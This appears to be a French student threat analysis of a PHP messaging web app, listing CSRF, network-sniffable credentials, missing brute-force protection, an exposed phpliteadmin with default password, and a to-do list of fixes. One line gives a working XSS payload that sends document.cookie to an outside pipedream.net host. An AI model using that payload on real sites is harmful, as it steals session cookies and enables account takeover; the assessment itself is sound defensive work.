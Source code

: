# STI — Analyse de menaces

* **Date** : 15.01.2020
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## Introduction

* CSRF sur tous les formulaires ainsi que les liens, on a reussi à
  * supprimer n'importe quel message (via son id)
    * en chargeant l'url /delete.php?delete=<id>
  * executer une requete http pour lire n'importe quel message via son id
    * /read.php?message=131, mais impossible de lire le contenu depuis le navigateur mais si l'attaquant sniff le reseau il pourra voir le contenu du message
  * envoyer un message
    *
  * changer son mdp
    *
  * administration
  * réponse aux messages
  * suppression des messages
* Credentials obtenable en faisant de l'écoute sur le réseau
  * Nous pouvons obtenir le cookie de session ainsi que le login et le password
  * N'importe qui peut donc usurper l'identité d'un compte sur le réseau
* XSS dans message avec
    ```html
    <script>fetch('https://enons72ccci9o.x.pipedream.net/c' + document.cookie)</script>
    ```
* pas d'injections SQL car PDO::prepare/execute sont utilisés.
* pas de protection contre le bruteforce de mdp
* mot de passe actuel non demandé lors du changement de mdp (possibilité de changé le mdp lors d'un vol de session)
 
* Fuzzing possible
  * On obtient des informations sur l'architecture du site
  * Surtout, on peut découvrir le dossier /extern qui contient le fichier phpliteadmin.php et ce dernier avait le mot de passe de base, nous avions donc accès à l'intégralité de la DB.

## À faire

* ~~hasher les mdp~~
* ~~enlever extern~~
* ~~demander le mdp actuel lors du changement de mdp~~
* ~~enlever les mdp trop simples~~
* protection xss
* locker un compte si y'a trop d'essais ratés
* token csrf
